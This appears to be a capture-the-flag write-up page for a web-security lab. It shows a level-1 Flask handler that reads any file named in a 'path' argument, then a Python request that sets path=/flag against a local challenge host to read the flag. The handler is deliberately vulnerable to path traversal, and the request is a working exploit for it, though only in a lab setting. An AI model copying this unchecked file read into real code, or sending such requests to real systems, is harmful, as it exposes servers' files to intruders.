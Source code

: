 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 9
---
```


## level 1

> Exploit a path traversal vulnerability

```py title="level 1 source code"
def level1():
    path = request.args.get("path")
    assert path, "Missing `path` argument"
    return (pathlib.Path(app.root_path) / path).read_text()
```

As we can see from the source code, the server, takes the argument given to the `path` parameter and then returns the result.

So we can just send a request with the `path` parameter set to `/flag`.

```title="request1.py"
import requests

response = requests.get("http://challenge.localhost?path=/flag")
print(response.text)
```
